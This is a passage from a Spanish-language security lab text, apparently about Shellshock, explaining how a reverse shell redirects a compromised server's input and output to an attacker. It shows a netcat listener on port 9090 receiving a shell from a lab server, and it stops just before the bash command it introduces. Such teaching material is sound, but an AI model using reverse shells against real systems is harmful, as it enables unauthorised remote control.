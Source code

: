 

La idea principal de una shell reversa es poder redirigir los dispositivos de standard input, output y error hacia una conexión de red, pudiendo así enviar y recibir información a través de este canal por la shell. En la otra punta de la conexión estará la máquina del atacante corriendo un programa mostrando lo que venga de la shell del otro lado de la conexión, al mismo tiempo este programa enviará lo que el atacante escriba usando la misma conexión de red.

Uno de los programas más usados por los atacantes para este propósito es \texttt{netcat}, si se corre con el parámetro \texttt{"-l"}, este se pondrá a la escucha de un puerto TCP en un puerto específico, convirtiéndose en un servidor TCP. Este servidor bastante simple hecho con netcat, imprimirá lo que llegue lo que se envie por un cliente y enviará lo que el usuario corriendo el servidor escriba.
En el siguiente experimento usaremos  \texttt{netcat} para ponernos a la escucha en el puerto TCP \texttt{9090} simulando ser un servidor TCP.

\begin{lstlisting}
Attacker(10.0.2.6):$ nc -nv -l 9090  (*@\reflectbox{\ding{217}} \textbf{Waiting for reverse shell}@*)
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$     (*@\reflectbox{\ding{217}} \textbf{Reverse shell from 10.0.2.5.}@*)
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet (*@\textbf{10.0.2.5}@*)  netmask 255.255.255.0  broadcast 10.0.2.255
        ...
\end{lstlisting}

El comando \texttt{nc} mostrado arriba, se pondrá a la escucha en el puerto TCP 9090 y se bloqueará en espera de nuevas conexiones.
A continuación con el fin de emular lo que haría un atacante después de comprometer el servidor por medio del ataque de Shellshock, debemos de correr el programa bash mostrado más abajo en el servidor cuya dirección IP es (\texttt{10.0.2.5}).
Este programa lanzará una conexión TCP en el puerto 9090 hacia la máquina del atacante, otorgándole así una shell reversa. Podremos observar el prompt shell que nos indica que la shell está corriendo en el servidor; podemos usar el comando \texttt{ifconfig} para verificar que la dirección IP es la correcta (\texttt{10.0.2.5}) y que es la que pertenece a la máquina que hostea el servidor. A continuación se muestra la sentencia de bash que debe ser ejecutada:

